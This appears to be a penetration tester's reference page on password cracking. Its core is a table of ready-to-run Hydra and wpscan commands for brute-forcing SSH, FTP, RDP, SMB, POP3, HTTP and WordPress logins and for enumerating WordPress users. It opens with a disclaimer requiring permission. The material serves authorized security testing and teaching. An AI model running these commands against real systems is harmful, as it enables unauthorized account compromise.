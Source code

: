# Password Cracking

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents.  You accept full responsibility for your actions by applying any knowledge gained here.  
{% endhint %}

## Headings:

This page was getting to be long, so here are shortcuts to the major sections.  I broke these out into separate pages for better organization and searchability.

* [Getting the hashes](gathering-the-hashes.md)
* [Wordlist manipulation](wordlist-manipulation.md)
* [Cracking the Hashes](cracking-the-hashes.md)

Not all methods of discovering passwords involve directly "cracking" hashes.  Brute forcing logins and direct recovery programs are also viable solutions.

## Password Recovery

Password recovery programs: [https://www.passcape.com/products](https://www.passcape.com/products) \(TODO:Test these!\)

## Brute forcing logins <a id="hydra"></a>

An amazing index of brute-force commands: [https://book.hacktricks.xyz/brute-force](https://book.hacktricks.xyz/brute-force)

### Hydra

Below are a few scriptable examples to brute force logins of common protocols.

| Command | Description |
| :--- | :--- |
| `hydra -P $pass_list -v $ip snmp -vV` | SNMP: Brute force |
| `hydra -t 1 -l $user -P $pass_list -vV $ip ftp` | FTP: with known user, using password list |
| `hydra -vV -u -L $users_list -P $pass_list -t 1 -u $ip ssh` | SSH: using users list, and passwords list |
| `hydra -vV -u -L $users_list -p $pass -t 1 -u $ip ssh` | SSH: with a known password, and a username list |
| `hydra -vV $ip -s $port ssh -l $user -P $pass_list` | SSH: with known username on non-standard port |
| `hydra -vV -l $user -P $pass_list -f $ip pop3` | POP3: Brute Force |
| `hydra -vV -L $users_list -P $pass_list $ip http-get $login_page` | HTTP GET: with user list and pass list |
| `hydra -vV -t 1 -f -l $user -P $pass_list rdp://$ip` | Windows Remote Desktop: with known username, and pass list |
| `hydra -vV -t 1 -f -l $user -P $pass_list $ip smb` | SMB: brute force with known user, and pass list |
| `hydra -vV -l $user -P $pass_list $ip http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'` | WordPress: brute force an admin login |
| `hydra -vV -L $users_list -p $pass $ip http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'` | WordPress: enumerate users |
| `wpscan --url $url -U $user -P $pass_list` | Use wpscan to brute force password with known user |

#### Other useful Hydra options

**`-x min:max:charset` -** Generate passwords from min to max length. Charset can contain `1` for numbers, `a` for lowercase and `A` for uppercase characters.  Any other character that is added is put in the list.   
Example: `1:2:a1%.` The generated passwords will be of length 1 to 2 and contain lowercase letters, numbers and/or percent signs and periods/dots.

**`-e nsr` -** Do additional checks. `n` for null password, `s` try login as pass, `r` try the reverse login as pass

### crackmapexec

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

[https://mpgn.gitbook.io/crackmapexec/](https://mpgn.gitbook.io/crackmapexec/)

## Resources

* [https://www.unix-ninja.com/p/A\_cheat-sheet\_for\_password\_crackers](https://www.unix-ninja.com/p/A_cheat-sheet_for_password_crackers)
* [https://github.com/frizb/](https://github.com/frizb/)
* [https://guide.offsecnewbie.com/password-cracking](https://guide.offsecnewbie.com/password-cracking)
* [https://www.hackingarticles.in/abusing-kerberos-using-impacket/](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)

